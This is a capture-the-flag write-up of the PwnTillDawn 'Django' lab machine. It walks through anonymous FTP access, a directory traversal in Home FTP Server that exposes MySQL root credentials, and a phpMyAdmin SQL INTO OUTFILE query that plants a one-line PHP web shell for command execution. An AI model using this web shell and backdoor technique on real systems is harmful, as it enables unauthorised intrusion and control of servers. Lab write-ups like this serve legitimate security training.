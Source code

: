 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and tehre are some exploits out there.<br>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
![image](https://user-images.githubusercontent.com/67085453/143782261-e0d2440d-6184-4d29-973e-27857d8eaa64.png)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
![image](https://user-images.githubusercontent.com/67085453/143782281-c9e6163d-ca6d-458e-bfb4-9d134a506dde.png)<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782293-2d934d99-50cc-4921-952d-30f772351b56.png)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
![image](https://user-images.githubusercontent.com/67085453/143782297-855aaeea-7b7f-4911-8541-5ebab092007a.png)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
![image](https://user-images.githubusercontent.com/67085453/143782302-b13f94e1-569b-4f0d-8db6-6af9f8ee7677.png)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
![image](https://user-images.githubusercontent.com/67085453/143782329-3679b60e-d2ed-46bb-ad88-45164bb76bef.png)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782333-aa8a1e32-8d2b-4ac8-8990-88b082b5503d.png)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
![image](https://user-images.githubusercontent.com/67085453/143782341-e9e3c7b1-5860-4661-997f-752d7cd4453c.png)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782348-2eeb504a-c02d-4c84-8b67-cb559b0ae626.png)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
![image](https://user-images.githubusercontent.com/67085453/143782353-db573f36-5613-487e-a99c-e8854b0f31de.png)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
